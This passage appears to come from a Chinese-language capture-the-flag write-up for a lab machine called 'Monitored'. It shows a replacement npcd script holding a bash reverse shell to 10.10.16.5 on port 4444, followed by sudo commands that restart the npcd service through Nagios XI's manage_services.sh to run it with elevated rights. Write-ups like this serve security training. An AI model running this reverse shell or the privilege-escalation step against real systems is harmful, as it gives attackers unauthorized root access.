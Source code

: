 ![image-20250323000725440](./././././././././././Monitored/image-20250323000725440.png)

查看npcd是乱码，无法直接修改，再写一个npcd传上去

```
#! /bin/bash
bash -i &> /dev/tcp/10.10.16.5/4444 0>&1
```

```
sudo /usr/local/nagiosxi/scripts/manage_services.sh stop npcd

sudo /usr/local/nagiosxi/scripts/manage_services.sh start npcd
```

![image-20250323001846625](./././././././././././Monitored/image-20250323001846625.png)

